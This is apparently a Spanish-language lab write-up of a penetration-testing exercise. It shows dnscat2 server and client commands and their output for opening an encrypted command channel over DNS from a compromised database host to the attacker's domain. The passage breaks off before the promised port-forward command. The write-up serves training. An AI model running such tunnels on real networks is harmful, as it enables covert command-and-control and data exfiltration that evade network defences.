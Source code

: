 <br />

**1. Follow the steps in this section to set up the dnscat2 server on FELINEAUTHORITY, and execute the dnscat2 client on PGDATABASE01. Download the binary from /exercises/dnscat_exercise_client on CONFLUENCE01. Set up a port forward with dnscat2 which allows you to run dnscat_exercise_client against the server running on port 4646 on HRSHARES.**

En primer lugar, tomamos acceso a FELINEAUTHORITY y a la PGDATABASE01 y empleamos los binarios de *dnscat* ahí disponibles para iniciar un túnel DNS:

```
kali@felineauthority:~/dns_tunneling$ dnscat2-server feline.corp
[sudo] password for kali: 

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...
```

<br />

```
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Keyman Grocer Roger Stirs Plato Cleft 

Session established!
```

Después de iniciar respectivamente el servidor y el cliente en sendas máquinas se abrirá una sesión cuyos datos se trasnferirán sobre un tunel DNS. Ahora sólo queda customizar la sesión para generar un desvio de puertos a través del túnel SSH en el servidor con el siguiente comando:

```
[...]
New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Keyman Grocer Roger Stirs Plato Cleft


windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:
```